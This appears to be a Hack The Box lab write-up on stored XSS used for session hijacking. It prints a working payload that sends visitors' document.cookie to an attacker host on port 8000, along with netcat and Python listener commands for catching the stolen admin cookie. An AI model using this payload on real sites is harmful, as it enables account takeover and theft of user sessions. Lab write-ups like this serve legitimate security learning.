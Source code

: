 # Session Hijacking // Stored XSS

HTTP is stateless; this means that each request will be executed independently without any information about previously executed requests. This means you will have to re-enter your username and password for any page you view. Therefore, developers need to create a way for you to monitor the status between multiple connections from the same user, rather than requiring them to re-authenticate after every click on a web app. This method is called session.



## What is Session Hijacking ?

Generally, in web-based exploits, our goal is to capture a user more authorized than us. In practice, we will try to get a new session using the xss vulnerability. Since websites store our information through cookies, our goal will be to get the documentcookie code. Documentcookie is the cookie of the admin account in the system.

> ```
> Tried on a box on Hackthebox platform.
> ```



## Xss Detection

I will try to add java script code with \<script> tag to one of the information that will be permanently on our page. If html tags work on user inputs, that is, if html tags are not filtered, I should be able to use script tags. Let's jump in.

<img src="image-20210620073656881.png" alt="image-20210620073656881" style="zoom:67%;" />





<img src="image-20210620074121907.png" alt="image-20210620074121907" style="zoom:67%;" />



The alert function opens a window and writes the data you want. If this code works, we will be able to receive cookies from every person who enters the page. Because the code we wrote will work for everyone. It will be located in the source code of our profile page.

![image-20210620074441310](image-20210620074441310.png)

### Payload

~~~javascript
```
<script> document.location= "http://10.10.14.x:8000/index.php?c=" + document.cookie; </script>
```
~~~

   

We changed the code like this and injected it into our page. Then, when the cookie is sent to us, we need to listen to our port in order to catch it. What we need to do now is to wait for a qualified user to enter our profile. You can use both;

~~~python
```
python3 -m http.server 8000
python2 -m SimpleHttpServer 8000
```
~~~

~~~bash
```
nc -nlvp 8000
```
~~~

Now all we have to do is wait. Using the following cookie.

![image-20210620075725989](image-20210620075725989.png)



![image-20210620075824891](image-20210620075824891.png)

![image-20210620075840220](image-20210620075840220.png)



## Session has been stolen!

